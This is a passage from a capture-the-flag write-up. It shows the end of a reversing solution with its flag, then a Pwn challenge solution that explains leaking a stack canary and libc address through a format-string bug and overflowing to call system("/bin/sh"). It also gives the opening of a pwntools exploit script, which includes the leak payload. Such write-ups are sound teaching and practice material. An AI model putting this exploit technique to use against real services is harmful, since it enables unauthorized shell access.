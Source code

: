 ```python
for i in b:
	if i>0 :
		flag += chr(i)
	else:
		flag += chr(i+256)
print(flag[::-1])

```  

**Flag**
```
zionctf{r3VeR5e_m3_p1e453_ff033}
```

<hr>

## Pwn

**Challenge**

I tried making a dummy login program and compiled & hosted it on my default ubuntu 18.04 server. Try it out: netcat 143.244.138.133 8002

You can also refer to this file : [libc.so.6](Writeup-files/Pwn/libc.so.6) along with the uploaded binary [rop](Writeup-files/Pwn/rop)

**Solution**

So, on using `checksec` on the binary, we can find that the following mitigations are applied:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

On reversing the binary using IDA, we can find two functions `getName()` and `getPasswd()`. `getName()` is vulnerable to format string and buffer overflow. `getPasswd()` is vulnerable to buffer overflow. 
We can easily exploit the format string bug to leak the stack canary, some valid libc address and some address from the ELF. Since the ELF and libc leak will be at fixed offsets from the ELF base and the libc base respectively, we can easily get the elf base and the libc base address. 

After that, it's pretty straight forward. We just need to fill some padding, add canary after it, fill 8 more bytes and thus , we'll get a control over the RIP. 

We'll use a ret gadget to make sure that the stack is aligned. And, we can simply perform a ret2system (calling system("/bin/sh") to get a shell )

Here's the [exploit](Writeup-files/Pwn/exploit.py)

```python
from pwn import *

elf = context.binary = ELF("./rop")
p = remote("143.244.138.133",8001)
# gdb.attach(p,"init-pwndbg")
libc = ELF("./libc.so.6")
p.recvuntil("Enter your username: ")
p.sendline("%13$p.%21$p|%15$p")

leak_1 = p.recvuntil(".")[6:-1]
leak_2 = p.recvuntil("|")[:-1]
leak_3 = p.recvline()

leak_1 = int(leak_1,16)
leak_2 = int(leak_2,16)
```